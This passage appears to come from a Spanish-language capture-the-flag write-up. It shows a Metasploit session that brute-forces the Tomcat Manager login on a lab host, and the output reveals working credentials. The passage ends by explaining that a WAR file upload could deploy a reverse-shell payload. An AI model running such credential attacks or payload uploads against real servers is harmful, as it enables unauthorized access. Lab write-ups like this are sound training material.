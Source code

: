 ```console
   21  auxiliary/scanner/http/tomcat_mgr_login                                        normal     No     Tomcat Application Manager Login Utility
   22  exploit/multi/http/tomcat_jsp_upload_bypass                   2017-10-03       excellent  Yes    Tomcat RCE via JSP Upload Bypass
   23  auxiliary/admin/http/tomcat_utf8_traversal                    2009-01-09       normal     No     Tomcat UTF-8 Directory Traversal Vulnerability

msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options                                                                         
                                                                                                                                     
Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                      Required  Description
   ----              ---------------                      --------  -----------
   BLANK_PASSWORDS   false                                no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                    yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                no        Try each user/password couple stored in the current database

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



## Explotación

Revisando el Manager de Tomcat al cual tuvimos acceso, uno de los apartados que más nos interesa es `WAR file to deploy`, el cual nos permite subir un archivo y desde el lado del atacante, podríamos subir un payload, que es un código malicioso para poder tener acceso a la máquina mediante una shell reversa. Un archivo `.war` es básicamente un archivo que empaqueta clases de Java para desplegar aplicaciones web. 
